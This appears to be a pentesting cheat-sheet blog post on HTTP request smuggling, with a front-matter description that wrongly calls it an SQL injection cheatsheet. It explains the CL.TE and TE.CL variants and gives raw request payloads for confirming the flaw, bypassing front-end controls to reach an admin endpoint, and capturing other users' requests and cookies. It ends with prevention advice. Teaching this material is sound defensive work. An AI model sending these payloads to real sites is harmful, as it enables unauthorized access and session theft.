 ```yaml
---
title: "HTTP request smuggling"
subtitle: ""
date: 2020-03-04T15:58:26+08:00
lastmod: 2020-03-04T15:58:26+08:00
draft: false
author: "Hato0"
description: "SQL injection cheatsheet"

tags: ["web", "penetest", "HTTPRS"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# HTTP request smuggling

HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

HTTP request smuggling is an attack based on bad request handling between front and backend. The front end receive the user packet and transfer data or request to the backend. In that way you can chunk your original request and perform a double request in one paquet send. In that way you can bypass some protections.  

Different types of HTTP request smuggling exist, they are :

-   CL.TE: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.
-   TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
-   TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

## Basics

- Basic CL.TE vulnerability

	You have to send a chunk request passing low content length to perform double requests in one, Here is an example:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE  
	Connection: keep-alive  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 6  
	Transfer-Encoding: chunked  

	0  

	G
	{{< /highlight >}}
	
	
- Basic TE.CL vulnerability

	Same as previous with a well formed double request, here is an example:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE  
	Content-Type: application/x-www-form-urlencoded  
	Content-length: 4  
	Transfer-Encoding: chunked  

	5c  
	GPOST / HTTP/1.1  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  

	x=1  
	0

	{{< /highlight >}}
	
	
## Confirming vulnerabilities

- Confirming a CL.TE vulnerability via differential responses

	Using same technique as previous you can target a page you are sure about the response like 404, home or whatever. The request should return the page on the second header. Here is an example
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE 
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 35  
	Transfer-Encoding: chunked  

	0  

	GET /404 HTTP/1.1  
	X-Ignore: X

	{{< /highlight >}}
	
- Confirming a TE.CL vulnerability via differential responses

	Same thing as before just a different way to do it.  Here is an example:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE
	Content-Type: application/x-www-form-urlencoded  
	Content-length: 4  
	Transfer-Encoding: chunked  

	5e  
	POST /404 HTTP/1.1  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  

	x=1  
	0

	{{< /highlight >}}
	
	
## Bypass front-end protections
- Bypass front-end security controls, CL.TE vulnerability

	Here is an example of how you can bypass the front to make the back do what you want (that's an example and you really have to adapt it):
	
	{{< highlight http "lineNos=false" >}}
POST / HTTP/1.1  
Host: WEBSITE
Content-Type: application/x-www-form-urlencoded  
Content-Length: 139  
Transfer-Encoding: chunked  
    
0  
    
GET /admin/add?username=test&password=test HTTP/1.1  
Host: localhost  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 10  
    
x=
	{{< /highlight >}}
	
	
- Bypass front-end security controls, TE.CL vulnerability

	Same thing as before, just the necessary change:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE  
	Content-length: 4  
	Transfer-Encoding: chunked  

	87  
	GET /admin/add?username=test&password=test HTTP/1.1  
	Host: localhost  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  

	x=1  
	0

	{{< /highlight >}}

## Advanced

- Exploiting HTTP request smuggling to capture other users' requests

	You need to be able to have a field that is at the end of your post data and to be able to update a site field or comment or post or ... In that way you will catch the other user requests by redirect it back to your data in your post request. Here is an example: 
	
	{{< highlight http "lineNos=false" >}}
	GET / HTTP/1.1  
	Host: WEBSITE 
	Transfer-Encoding: chunked  
	Content-Length: 324  

	0  

	POST /post/comment HTTP/1.1  
	Host: WEBSITE  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 400  
	Cookie: session=YOURCOOKIE

	csrf=CSRFTOKEN&postId=2&name=YOURNAME&email=EMAIL&comment=
	
	
	{{< /highlight >}}


## How to prevent them

How can implement a rejection of wierd / malformed request or also do these following actions :

-   Disable reuse of back-end connections, so that each back-end request is sent over a separate network connection.
-   Use HTTP/2 for back-end connections, as this protocol prevents ambiguity about the boundaries between requests.
-   Use exactly the same web server software for the front-end and back-end servers, so that they agree about the boundaries between requests.